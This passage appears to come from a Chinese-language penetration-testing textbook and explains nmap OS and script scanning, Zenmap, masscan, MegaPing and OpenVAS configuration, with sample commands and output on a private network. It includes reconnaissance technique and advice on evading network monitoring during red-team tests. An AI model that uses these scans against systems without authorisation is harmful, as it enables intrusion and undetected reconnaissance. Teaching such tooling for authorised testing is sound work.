Nmap done: 1 IP address (1 host up) scanned in 35.23 seconds
```

Nmap 了解服务的详细信息，是因为应用程序在 nmap 连接时会提供这些信息。不同的应用程序和协议会提供不同的信息集，这意味着在某些情况下，nmap 必须了解如何使用这些协议来获取这些信息。例如，对于 Apache 等 Web 服务器，系统管理员负责控制返回给客户端的头部中应提供多少信息。Apache 不仅可以提供产品名称 Apache，还可以提供软件版本、已加载的模块以及模块版本。

你可能还想知道远程系统上运行的是什么操作系统。这也是 nmap 可以通过操作系统扫描来处理的事情。为了确定操作系统，nmap 拥有一个指纹数据库。指纹包含每个操作系统行为的详细信息，包括 IP 标识字段的生成方式、初始序列号、初始窗口大小以及其他几个细节。为了识别操作系统，nmap 必须至少找到一个开放端口和一个关闭端口。

在以下代码中，你可以看到一个操作系统扫描。你会注意到，即使我没有指示 TCP 扫描，nmap 也执行了一个。发现的相同端口


to be open before have been identified again. You will also notice that nmap scanned two different systems. This is another way nmap can be told to scan systems rather than ranges or network blocks. If you provide multiple systems on the command line, nmap will perform the same scan on each of the systems specified.

## 使用 Nmap 进行操作系统扫描

```
$ nmap -O 192.168.86.32 192.168.86.30
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-15 20:54 MDT
Nmap scan report for billthecat.lan (192.168.86.32)
Host is up (0.0039s latency).
Not shown: 995 closed ports
PORT STATE SERVICE
22/tcp open ssh
88/tcp open kerberos-sec
445/tcp open microsoft-ds
548/tcp open afp
5900/tcp open vnc
MAC Address: AC:87:A3:36:D6:AA (Apple)
OS details: Apple Mac OS X 10.7.0 (Lion) - 10.12 (Sierra) or iOS 4.1 - 9.3.3 (Darwin 10.0.0 - 16.4.0)
Network Distance: 1 hop
```

```
Nmap scan report for 192.168.86.30
Host is up (0.0040s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
111/tcp open rpcbind
3128/tcp open squid-http
MAC Address: 70:4D:7B:61:52:6B (Asustek Computer)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```

```
OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 9.07 seconds
```

进行操作系统扫描时需要牢记一点：nmap 依赖指纹，与人不同，相同的指纹可能匹配多个操作系统。只要网络协议栈没有变化，您就会发现商业操作系统的多个版本会匹配相同的指纹。这一点在 Apple Mac OS X（现称为 macOS）上可见一斑。有多个版本匹配相同的指纹，包括某些 iOS 版本。目标上运行的版本确实属于 nmap 指示的范围。还需要牢记的另一点是，nmap 会跟踪操作系统。操作系统实际上是内核——即管理硬件、内存和进程的软件组件。所有帮助用户与操作系统交互以执行对用户有用操作的其他内容都位于操作环境中，以便进行区分。以 Linux 为例，相同的内核可能用于多个发行版，但由于仅识别内核，无法得知具体是哪个发行版。例如，nmap 无法区分 Ubuntu 和 CentOS。它只知道您正在运行的 Linux 内核版本。

## 脚本

我们已经了解了 nmap 的许多功能。即使拥有所有这些功能，我们也可以做得更多。nmap 包含一个脚本引擎，允许您作为 nmap 用户以任何想要的方式扩展功能。但这并不完全是关于您自己扩展功能。脚本引擎就在那里，但如何使用它并不完全由您决定。最新版本的 nmap 自带数百个脚本，数量还在不断增加。它们被分为不同的类别，目前包括 auth、broadcast、brute、default、discovery、dos、exploit、external、fuzzer、intrusive、malware、safe、version 和 vuln。您可以让 nmap 运行特定类别的所有脚本。以下代码演示了如何让 nmap 运行 discovery 类别中的所有脚本。

## Nmap 发现脚本

```
$ nmap -sS --script=discovery 192.168.86.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-21 13:28 MDT
Pre-scan script results:
| broadcast-igmp-discovery:
| 192.168.86.22
| Interface: eth0
| Version: 2
| Group: 224.0.0.251
| Description: mDNS (rfc6762)
| 192.168.86.28
| Interface: eth0
| Version: 2
| Group: 224.0.0.251
| Description: mDNS (rfc6762)
| 192.168.86.32
| Interface: eth0
| Version: 2
| Group: 224.0.0.251
| Description: mDNS (rfc6762)
| 192.168.86.47
| Interface: eth0
| Version: 2
| Group: 224.0.0.251
| Description: mDNS (rfc6762)
```

## Nmap 发现脚本（续）

要使用脚本，必须传递 --script= 参数，后跟要运行的脚本名称。除了使用脚本名称，您还可以指定类别，就像我在前面的代码中所做的那样。在 Linux 系统上，您可能会在 /usr/share/nmap/scripts 中找到所有已安装的脚本。在 Windows 系统上，脚本位于 nmap 安装目录下的 Program Files 目录中。您会注意到这些脚本的文件扩展名是 .nse，适用于 nmap 脚本引擎。脚本使用 Lua 语言编写，每个文件都可以打开和阅读，以便了解脚本功能的详细信息。如果您更倾向于使用 nmap 获取脚本信息，可以使用 --script-help，并传入脚本名称。例如，假设您想要获取 http-waf-detect.nse 的详细信息。这里展示了如何调用 nmap 获取帮助，以及 nmap 响应的开头部分。

## Nmap 脚本帮助

```
$ nmap --script-help=http-waf-detect.nse
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-21 13:42 MDT
http-waf-detect
Categories: discovery intrusive
https://nmap.org/nsedoc/scripts/http-waf-detect.html
Attempts to determine whether a web server is protected by an IPS (Intrusion Prevention System), IDS (Intrusion Detection System) or WAF (Web Application Firewall) by probing the web server with malicious payloads and detecting changes in the response code and body.
```

查找这些信息的另一种方法是直接查看脚本本身。编写 nmap 脚本时，会设置一些变量，其中一个是 description。这就是调用 script-help 时打印的变量。此外，您还会注意到有一个 usage 部分，指示如何从 nmap 调用脚本。您还会注意到顶部有 require 语句。这里引入了 nmap 脚本引擎的功能。这些模块是脚本被 nmap 调用所必需的。

## http-waf-detect.nse 文件顶部

```
local http = require "http"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local table = require "table"
```

```
description = [[
Attempts to determine whether a web server is protected by an IPS (Intrusion Prevention System), IDS (Intrusion Detection System) or WAF (Web Application Firewall) by probing the web server with malicious payloads and detecting changes in the response code and body.

To do this the script will send a "good" request and record the response,
afterwards it will match this response against new requests containing
malicious payloads. In theory, web applications shouldn't react to malicious
requests because we are storing the payloads in a variable that is not used by
the script/file and only WAF/IDS/IPS should react to it. If aggro mode is set,
the script will try all attack vectors (More noisy)
]]
```

```
--
-- @usage
-- nmap -p80 --script http-waf-detect <host>
-- nmap -p80 --script http-waf-detect --script-args="http-waf-detect.aggro,
http-waf-detect.uri=testphp.vulnweb.com/artists.php" www.modsecurity.org
--
-- @output
-- PORT STATE SERVICE
-- 80/tcp open http
-- |_http-waf-detect: IDS/IPS/WAF detected
```

除了调用单个脚本，您还可以让 nmap 使用通配符选择多个脚本。例如，如果您想运行与 Server Message Block (SMB) 协议版本 2 相关的所有脚本，只需指定要运行的脚本名称为 smb2* 即可。这意味着任何以 smb2 开头的脚本都会被运行。如果发现 SMB 端口开放，则会有三个脚本被运行。您可以在以下代码清单中看到调用脚本及其结果。您会注意到端口扫描将 445 端口标识为开放。这是用于 Common Internet File System (CIFS) 的端口，它是 SMBv2 的一种实现。这个端口触发了脚本的运行，意味着当 nmap 发现该端口开放时，它会识别出所有已注册该端口的脚本，并运行这些脚本。

## Nmap 使用通配符

```
$ nmap -sS --script "smb2*" -T 4 192.168.86.32
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-21 15:32 MDT
```


## Nmap 使用通配符（续）

```
Nmap scan report for billthecat.lan (192.168.86.32)
Host is up (0.00024s latency).
Not shown: 500 closed ports, 495 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
88/tcp   open  kerberos-sec
445/tcp  open  microsoft-ds
548/tcp   open  afp
5900/tcp open  vnc
MAC Address: AC:87:A3:36:D6:AA (Apple)

Host script results:
| smb2-capabilities:
|   2.10:
|     Leasing
|     Multi-credit operations
|   3.00:
|     Leasing
|     Multi-credit operations
|     Encryption
|   3.02:
|     Leasing
|     Multi-credit operations
|_    Encryption
| smb2-security-mode:
|   2.10:
|_    Message signing enabled and required
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 3.44 seconds
```

如您所见，您可以使用 nmap 脚本收集关于不同服务的大量信息。截至编写本文时，共有 590 个脚本。在这 590 个脚本中，有 31 个专门用于识别服务器是否可能暴露于名为常见漏洞和披露（CVE）标识符的漏洞。其他脚本将识别易受其他漏洞影响的系统。另一个示例是，有一个脚本用于查找运行安全套接字层（SSL）版本 2 的服务器中存在的使用过时和弱化加密解密 RSA（DROWN）漏洞。这是一个严重的漏洞，可以通过使用 SSL 与系统交互来识别。

如果您有一些编程经验，可能会发现使用自己的脚本扩展 nmap 是一个相当简单的过程。由于所有 NSE 脚本都是纯文本，您可以将其中任何一个用作起点，或提取代码样本来组合并创建自己的脚本。请记住，虽然 nmap 是端口扫描器并可以识别开放端口，但脚本引擎用于与应用程序进行更深层的交互。脚本还可以根据服务提供的响应进行程序化判断。脚本引擎模块不仅提供与服务交互的功能（包括向 nmap 注册端口，以便在识别到端口开放时调用脚本），还包含脚本完成后由 nmap 呈现输出的模块。

## Zenmap

您可以使用命令行执行所有 nmap 扫描，但如果您更喜欢使用 GUI，则不必这样做。多年来，您不得不使用命令行，因为那是仅有的可用选项。曾有人尝试创建叠加在 nmap 之上的 GUI，随后在某一年，在 Google 的 Summer of Code 项目下，一个名为 Zenmap 的 GUI 被创建，并且多年来它一直是 nmap 的 GUI 版本。正如其名称所暗示的，它是 nmap 的一个覆盖层。这意味着您在 Zenmap 中执行的操作会在底层运行 nmap，然后 nmap 的结果会在 GUI 中可用。使用 Zenmap，您无需过多考虑您正在执行的扫描类型（即我之前提到的扫描类型列表）。相反，如图 5.3 所示，您可以从下拉菜单中按名称选择扫描。

### 图 5.3 Zenmap 扫描类型



您还会看到命令框。选择不同的扫描类型会更改命令行。您将不再从 SYN 扫描或全连接扫描等类型中选择，而是从强烈扫描、快速扫描、常规扫描等选项中进行选择。对于强烈扫描，限速设置较高，以便更快地完成扫描。常规扫描不会更改限速速度。有趣的是，慢速全面扫描也会提高限速。如果您不想使用界面中提供的任何选项，可以将命令行更改为您想要的任何内容并仍可运行。

使用 Zenmap 的优势不在于能够选择预设扫描设置，而在于可视化输出。如果您使用命令行，会得到大量文本输出，然后需要从中提取所需内容。使用 Zenmap，您可以在左侧看到所有已识别的主机。您还将获得一个小图标，指示操作系统类型，前提是您执行了检测操作系统的扫描。当然，如果您更愿意查看常规 nmap 输出，也会得到该输出。不过，让 Zenmap 为您组织结果可能更容易。

图 5.4 展示了可视化输出的另一种方式。同样，进行端口扫描的重要方面之一是识别服务，进而识别应用程序。在图 5.4 的左侧，单击“服务”按钮将显示扫描中识别的所有服务列表。选择其中一项服务将列出扫描期间运行该服务的所有主机。如果您查看图 5.4 的右侧，您将看到主机列表，但在某些情况下，您还将看到该主机上运行的应用程序及版本。

### 图 5.4 Zenmap 服务输出



Zenmap 的另一个有用功能是其保存扫描的能力。好吧，它超越了保存扫描的能力。归根结底，您可以在 nmap 中保存扫描。Zenmap 将做的是比较两个保存的扫描。这意味着您可以获取网络的基线，然后稍后再次检查以查看可能发生了什么变化。如果您多次测试同一网络，能够获得历史差异将很有用。您将获得不仅不同的主机，还有不同的服务。

默认情况下，Zenmap 将以 XML 格式保存扫描。由于 XML 是基于文本的格式，您可以自己获取两个 XML 文件之间的差异，但使用一个能够消耗 XML 然后逐个节点比较的工具会更容易，以获得不仅仅是文本差异的结果。Zenmap 将为您完成此操作。

虽然我通常更喜欢使用命令行，但有时 GUI 工具确实更有用。我更喜欢从命令行运行扫描，但 Zenmap 的可视化和组织功能使其值得使用。当然，Zenmap 不要求您在 Zenmap 中执行初始扫描。您可以在 nmap 中运行扫描并以 XML 格式保存输出，然后在 Zenmap 中打开 XML 文件，获得我们在此讨论的所有优点。

## masscan

您是否曾想过对整个互联网进行端口扫描，以识别所有响应的 Web 服务器？当然，如果您打算这样做，您会希望以尽可能快的速度全速进行。根据 masscan 的开发者 Robert Graham 所说，这基本上是 masscan 的目的。其核心，它是一个端口扫描器。它执行 nmap 做的一些相同的事情。区别在于，它是为在您的系统和网络连接允许的范围内尽可能快地运行而开发的。

由于 nmap 已成为事实上的端口扫描器，而倾向于进行端口扫描的人知道 nmap 的工作原理，masscan 使用与 nmap 相同类型的命令行参数。说到底，端口扫描并不花哨。您告诉端口扫描器要扫描哪些端口和系统。在以下代码中，您可以看到运行 masscan 以识别所有 Web 服务器。就其与 nmap 的关系而言，您会注意到指示端口的参数是相同的。您还会注意到，在我省略扫描类型的地方，masscan 告诉我它已为我填充了 -sS。

### masscan 识别 Web 服务器

```
$ masscan --rate=100000 -p80,443 192.168.86.0/24

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2018-07-19 02:26:51 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 256 hosts [2 ports/host]
Discovered open port 80/tcp on 192.168.86.250
Discovered open port 80/tcp on 192.168.86.1
Discovered open port 80/tcp on 192.168.86.35
Discovered open port 443/tcp on 192.168.86.44
Discovered open port 443/tcp on 192.168.86.245
Discovered open port 80/tcp on 192.168.86.247
Discovered open port 80/tcp on 192.168.86.38
Discovered open port 80/tcp on 192.168.86.44
```

最显著的区别是添加了速率参数。这是每秒数据包数，您可以使用小数形式的分数速率，例如 0.5，来表示每 2 秒发送一个数据包。此处提供的参数请求每秒 100,000 个数据包。实际效果因人而异，取决于您的目标是什么、您有多少可用带宽，以及您的系统和网络接口生成并向网络发送数据包的速度。

您可能还注意到 masscan 强制使用 --randomize-hosts，这意味着测试的 IP 地址不会按数字顺序排列。相反，顺序将被随机化。随机化主机的想法是潜在地绕过网络监控工具。如果您按顺序扫描，扫描正在进行就非常明显。随机化扫描使正在发生的事情不那么明显。如果您降低速率，这尤其正确。

不过，masscan 不仅仅进行端口扫描，即使是非常快速的扫描。它还可以像 nmap 一样进行一些信息收集。您可以请求 masscan 抓取横幅。这是通过 --banners 参数完成的。

### 使用 masscan 获取横幅

```
$ masscan -sS --banners --rate=100000 -p80,443 192.168.86.0/24

Starting masscan 1.0.4 (http://bit.ly/14GZctC) at 2018-07-19 03:25:51 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 256 hosts [2 ports/host]
Discovered open port 80/tcp on 192.168.86.162
Discovered open port 80/tcp on 192.168.86.1
Discovered open port 80/tcp on 192.168.86.160
Discovered open port 80/tcp on 192.168.86.250
Discovered open port 80/tcp on 192.168.86.44
Discovered open port 80/tcp on 192.168.86.35
Discovered open port 443/tcp on 192.168.86.245
Discovered open port 80/tcp on 192.168.86.196
Discovered open port 80/tcp on 192.168.86.247
Banner on port 80/tcp on 192.168.86.35: [http] HTTP/1.1 200 OK\x0d\x0aConnection: close\x0d\x0aContent-Type: text/html\x0d\x0aCache-Control: no-cache\x0d\x0aExpires: -1\x0d\x0a\x0d
Banner on port 80/tcp on 192.168.86.35: [title] Redirect to Login
```


你会注意到，只有一个系统显示了标头，而在这些标头中，没有服务器类型。同一台服务器表明存在重定向到登录页面。使用 nmap 运行相同的扫描会返回服务器类型。masscan 不具备 nmap 的相同功能，包括不支持其他扫描类型，例如非常规的 TCP 扫描，如 XMAS、FIN 和 ACK。它也不支持 UDP 扫描。但是，如果你需要所有这些功能，可以使用 nmap。它是免费的，足以胜任这类扫描。masscan 带给你的是能够指定扫描速率以及执行非常快速扫描的能力。

## MegaPing

我们之前已经了解过 MegaPing，它能够执行 ping 扫描。如前所述，MegaPing 具有多种功能，包括运行端口扫描的能力。然而，这些并非普通的扫描。你会记得，nmap 默认会扫描大约 1,000 个端口。这些是常用端口。如果需要，当然可以选择其他端口。MegaPing 提供而 nmap 没有一项功能是某些预选端口集合。你可以在图 5.5 中看到一个下拉菜单，它提供不同的端口选择。其中之一是“敌对端口”（Hostile Ports），即常被滥用的端口，以及可能通常被特洛伊木马程序和其他恶意软件（malware）使用的端口。在底部，你将看到包含在扫描类型中的端口列表。

图 5.5 MegaPing 扫描类型



要在 MegaPing 中运行扫描，请在界面左侧选择“端口扫描器”（Port Scanner）。然后需要为扫描添加目标。MegaPing 的一个缺点是它不接受 CIDR 块作为目标。它也不接受地址范围。如果要扫描多个 IP 地址，需要将它们添加进去。你会看到中间的框，可以在其中添加地址，然后选择要扫描的地址。如果只想扫描单个地址，请将其输入到“目标地址列表”（Destination Address List）下方的框中。然后只需单击“开始”（Start）。图 5.6 显示了敌对端口扫描的结果。

图 5.6 MegaPing 扫描报告



查看结果时，你可能会注意到有一些常用端口被列为开放状态。你会注意到，像 80 (www) 这样的端口旁边的注释说明它们是特权端口。这些是需要使用管理权限才能打开的端口。这意味着这些端口会成为攻击者的攻击目标，因为攻破端口背后的应用程序会立即让攻击者获得管理权限。另一种扫描类型是“授权端口”（Authorized Ports），它只扫描应用程序预期所在的端口范围。其他端口被视为临时端口，即当客户端应用程序与服务器开始通信时，分配给其作为源端口的端口。

> 关于 MegaPing 需要注意的是，虽然它功能丰富，但属于商业软件。有一个功能齐全的评估版，但启动应用程序时会显示许可证消息，需要等待。

## 漏洞扫描

了解开放端口以及在这些端口上监听的应用程序是一个不错的起点。在对这些应用程序中可能存在的漏洞进行大量研究后，你可以开始针对这些端口进行探测。你也可以找到大量漏洞利用，然后开始针对开放端口上的应用程序进行投放。这可能是检查是否存在漏洞的一种简单方法。只需将找到的所有漏洞利用针对目标进行检查即可。然而，这种方法存在一些问题。首先是，你可能会无意中在目标系统上导致故障。盲目测试可能导致意外结果，而从伦理角度来看，你的目标之一是不造成伤害。

当然，任何类型的安全测试都可能导致意外结果和故障。然而，你的工作是尽可能控制测试，并确保客户或雇主了解测试可能带来的后果。告诉客户你将大量漏洞利用投放到其系统中，却不知道影响是什么，并且因此他们可能会遇到宕机，这显得不太专业。你的工作是控制你的测试——了解自己在做什么以及可能的结果是什么。

另一个问题是，如果你在进行红队测试，而目标不知道你正在发起攻击，你需要确保他们不会发现你，或者至少要竭尽一切避免被发现。盲目地针对大量系统运行大量漏洞利用（包括可能甚至没有该易受攻击应用程序的系统），会非常吵闹，如果存在任何检测能力，你就会被抓住。这意味着你已经失败了。

更好的方法是使用漏洞扫描器，它采用智能方法识别潜在漏洞。漏洞扫描器会识别开放端口和监听应用程序，然后根据这些应用程序确定可能存在哪些漏洞。扫描器随后将运行为这些漏洞定义的测试。扫描器的目标不是攻破系统，而只是识别潜在漏洞。

这并不能保证扫描器识别出的就是可利用的漏洞。这意味着扫描器根据与目标系统的交互以及其拥有的数据，认为发现了某个漏洞。这被称为误报。漏洞扫描器发现的任何问题都需要手动验证。这可能包括调查扫描器呈现的实际交互——例如，有时它仅基于返回代码，而不查看实际数据。也可能涉及实际重新执行漏洞扫描器进行的测试。漏洞扫描器是一种工具，不应被视为测试的终点。它是起点。尽管漏洞扫描器非常出色，但它们并非终点。

> **注**
>
> 以下是漏洞的四个类别：
>
> - **误报（False Positive）**：扫描器识别出其认为是漏洞的内容。调查后，结果发现它实际上并不是漏洞。
> - **漏报（False Negative）**：扫描器未识别出漏洞。后来发现，实际上存在扫描器遗漏的漏洞。
> - **真阳性（True Positive）**：扫描器识别出了漏洞，经手动调查后证实为合法漏洞。
> - **真阴性（True Negative）**：扫描器未识别出漏洞，且不存在需要识别的漏洞。

从历史角度来看，值得注意的是，网络漏洞扫描器自 20 世纪 90 年代初期就已存在。第一个是由 Dan Farmer 和 Wietse Venema 开发的，被称为网络审计安全分析工具（SATAN）。SATAN 随后衍生出其他工具，如安全审计研究助手（SARA）和安全管理员综合网络工具（SAINT）。SATAN 主要使用 Perl 编写，并采用 Web 界面。尽管现代漏洞扫描器已用其他语言取代了 Perl，但它们通常仍使用 Web 界面。一款非常流行的漏洞扫描器是 Nessus。我们稍后将介绍 Nessus，但首先将介绍与 Nessus 相关的 OpenVAS。

> 我曾试图找到一份 SATAN 的副本，只是为了好运行一次，因为我上次运行它大约是 30 年前。虽然 SATAN 网页仍然可用，但曾经拥有它的镜像站点都已不可用。不过，你仍然可以获得多年未更新的 SARA 的副本，以及现在已成为商业产品的 SAINT。

## OpenVAS

SATAN 是开源的，这意味着你可以查看 SATAN 做的一切，并且如果愿意，可以通过自己添加模块来扩展其功能。如果你能在某处找到 SATAN 的副本，你仍然可以查看其源代码。20 世纪初期的另一个开源漏洞扫描器是 Nessus。它最初于 1998 年作为免费可用的漏洞扫描器发布，并一直保持这样直到 2005 年，当时成立三年的该公司关闭了源代码，使所有未来的开发都成为该公司的专有技术。当时，现有的 Nessus 源代码是版本 2，而 Tenable 的第一个版本是版本 3。然而，版本 2 的现有源代码是开放的，于是创建了两个独立项目，其中 Nessus 开发者弃置的 Nessus 版本 2 代码被分叉，作为新项目的基础。


其中一个分支是开放漏洞评估系统（OpenVAS）。起初，正如您所料，OpenVAS与Nessus相同。不过，随着时间的推移，OpenVAS发展出了自己的应用架构，使用了Nessus未明确采用的多层架构。Nessus最初有一个用于管理扫描的原生应用程序客户端，而OpenVAS继续使用相同的原生应用程序。OpenVAS将Greenbone Security Assistant（GSA）开发为OpenVAS的用户界面。今天，GSA通过Web界面访问。您可以在图5.7中看到GSA的登录屏幕。

### 图5.7 Greenbone Security Assistant


OpenVAS允许您创建多个用户，每个用户可能拥有不同的权限。有些用户可能可以创建扫描，而其他用户可能只能查看扫描结果。其他用户可以创建用户并管理OpenVAS安装。除了用户，OpenVAS还支持角色。角色内的权限可以更改，并且可以创建新角色。安装OpenVAS时，admin用户作为设置过程的一部分被创建，并生成一个随机密码。

## 在OpenVAS中设置目标

OpenVAS中的扫描包含许多组件。创建扫描时，您需要一个目标或一组目标。创建目标也需要一些信息。您需要希望运行测试的IP地址集。您还可以从正在测试的集合中排除地址。您可能这样做是为了在目标列表中提供一个网络块，但该网络块中可能也有脆弱的系统。因此，您可能希望告诉OpenVAS不要测试该地址。图5.8显示了OpenVAS中创建目标的对话框。您将看到IP地址以及排除项。

### 图5.8 在OpenVAS中创建目标



您还会看到，可以创建一组要扫描的端口。OpenVAS等漏洞扫描器所做的一件事是扫描端口，以确定应将测试重点放在哪些端口上。您可以确定要测试的端口范围。如果您只关心针对特定服务进行测试，这可以限制测试量。这是控制OpenVAS所执行范围的一种方法。

您并不总是在进行黑盒测试，这意味着您并不总是毫无信息。有时，您会掌握有关目标的详细信息。这些详细信息非常有用，因为它们可以帮助您更深入地了解目标组织面临的漏洞。例如，您可能会获得凭据，这些凭据可以在OpenVAS中使用。当凭据提供给OpenVAS时，扫描器将能够查看本地漏洞，而不仅仅是网络或远程漏洞。OpenVAS将使用这些凭据登录系统。一旦OpenVAS完成身份验证，它就可以开始查找本地漏洞。

虽然您可以从目标窗口创建凭据，但也可以直接从配置菜单创建凭据。当您指示要创建凭据时，无论您是在目标创建窗口中，还是从配置菜单进入凭据页面，您都将看到图5.9所示的窗口。您可以创建可跨多种协议使用的凭据，使用不同的身份验证方案。这可能只是用户名和密码，也可能是使用SSH密钥代替密码。创建凭据后，可以将其应用到您的目标上。

### 图5.9 在OpenVAS中创建凭据



这存在的一个问题是，它假设相同的凭据在多个系统中使用，因为每种协议只能应用一组凭据。如果您有集中式用户账户存储，这可能有效。否则，您也可以将目标分组以匹配凭据。

## OpenVAS中的扫描配置

扫描的核心在于扫描配置。扫描配置定义了针对目标测试哪些插件。默认情况下，OpenVAS中定义了八个扫描配置。您可以在图5.10中看到这些扫描配置的列表。您可以看到每个配置中已启用的网络漏洞测试（NVT）的数量。出于组织目的，NVT被分类为不同的家族。您可以启用整个家族，也可以根据需要单独启用某些NVT。您会注意到，有一个名为Empty的配置中未启用任何NVT。还有一个配置也未启用任何NVT。名为MyScan的配置同样未启用任何NVT，是我创建的。

### 图5.10 OpenVAS扫描配置

